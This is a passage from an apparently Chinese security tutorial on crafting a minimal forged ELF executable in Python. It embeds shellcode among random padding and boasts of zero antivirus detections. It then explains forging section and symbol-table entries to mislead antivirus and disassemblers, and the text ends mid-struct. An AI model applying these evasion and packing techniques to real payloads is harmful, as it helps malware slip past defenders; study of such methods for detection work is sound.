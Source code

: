 ```
        elf_pheader_pt_note,elf_pheader_pt_tls,elf_pheader_pt_gun_relro
    ]

    elf_header.e_entry = elf_pheader_pt_load_1.p_vaddr + \
        c.sizeof( ElfN_Ehdr ) + \
        c.sizeof( ElfN_Phdr ) * PHEADERS_LEN  + PT_NOTE_LEN
    # elf_header_bytes = c.string_at(c.addressof(elf_header),c.sizeof(elf_header))
    # elf_pheader_bytes = c.string_at(c.addressof(elf_pheader_pt_load_1),c.sizeof(elf_pheader_pt_load_1))

    import random
    with open(FILENAME,"wb") as fd:
        elf_header_bytes = c.string_at(c.addressof(elf_header),c.sizeof(elf_header))
        fd.write( elf_header_bytes)
        for ph in pheaders:
            fd.write( c.string_at( c.addressof(ph),c.sizeof(ph) ) )

        fd.write( bytes([ random.randint(0x00,0xff) for i in  range(PT_NOTE_LEN)]  ) )
        fd.write(shellcode)

        fd.write( bytes( [ random.randint(0x00,0xff) for i in  range(PT_TLS_LEN)] )  )
        fd.write( bytes( [ random.randint(0x00,0xff) for i in  range(LOADABLE_LEN)] ) )
```

这样伪造的ELF文件大小为1kb，就是彻底的0查杀了。

[![](https://p2.ssl.qhimg.com/t019a985608119761c3.png)](https://p2.ssl.qhimg.com/t019a985608119761c3.png)



## 丰富ELF文件的节信息

`Section`信息对于静态链接的ELF文件来讲是完全不必要的存在，但是如果一个可执行文件没有节信息，那必然看起来很奇怪，势必会引起杀软的关注，那么下面就开始继续伪造ELF文件的节信息。

我们知道，当一个静态链接的二进制没有符号的时候，分析起来是比较困难的，但是如果一个静态链接的二进制全是错误的符号信息，那是不是也能混淆视听呢？ 那好，我们接下来的目标就是构造一堆乱七八糟的符号来误导反汇编的结果。

ELF文件的符号信息主要存储在section `.symtab` 中，首先先来大概的说明一下 `.symtab`符号表的结构，以下以x86为例说明：

```
typedef struct `{`
Elf32_Word st_name;
/*
  是符号名的字符串表示在字符串表中的索引，一般是`.strtab`节中的索引值，如果该值非 0，则它表示了给出符号名的字符串表索引，否则符号表项没有名称。
  注:外部 C 符号在 C 语言和目标文件的符号表中具有相同的名称。
*/

Elf32_Addr st_value; 
/*
  此成员给出相关联的符号的取值。依赖于具体的上下文，它可能是一个 绝对值、一个地址等等。
*/
Elf32_Word st_size; 
/*
  很多符号具有相关的尺寸大小。例如一个数据对象的大小是对象中包含 的字节数。如果符号没有大小或者大小未知，则此成员为 0。
*/
unsigned char st_info; 
/*
此成员给出符号的类型和绑定属性。下面给出若干取值和含义的绑定关系。
*/
unsigned char st_other; 
/*
目前为 0，其含义没有被定义。
*/
Elf32_Half st_shndx;
/*
```